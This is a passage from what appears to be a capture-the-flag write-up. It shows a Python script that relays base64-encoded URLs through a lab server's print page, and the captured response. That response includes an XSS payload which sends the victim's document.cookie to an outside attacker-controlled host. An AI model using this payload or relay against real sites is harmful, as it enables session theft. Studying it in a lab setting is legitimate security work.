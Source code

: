 Using this simple script we checked whether the content was actually included:

```python
import requests
import sys
from base64 import b64encode

BASE_URL = "http://10.13.37.13/?page=print&url="

def get_it(url):
    s = requests.session()
    url = b64encode(url)
    res = s.get(BASE_URL + url)
    return res

if __name__ == "__main__":
    assert len(sys.argv) == 2, "need argv[1]"
    x = get_it(sys.argv[1])
    print x.request.url
    print
    print x.text
```

```
$ python relay.py "http://10.13.37.13.f0rki.at/xss.html"
http://10.13.37.13/?page=print&url=aHR0cDovLzEwLjEzLjM3LjEzLmYwcmtpLmF0L3hzcy5odG1s

<!DOCTYPE html>
<html lang="en">
  <head>
[...]

    <div class="container">

      <div class="starter-template">
        <h1></h1>
        <p class="lead"><html>
<script>
document.write("<img src=\"http://f0rki.at/" + document.cookie + "\" />");
</script>
</html>
</p>
      </div>

    </div><!-- /.container -->


    <!-- Bootstrap core JavaScript
    ================================================== -->
    <!-- Placed at the end of the document so the pages load faster -->
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js"></script>
    <script src="http://10.13.37.13/public/bootstrap.min.js"></script>
  </body>
</html>
```
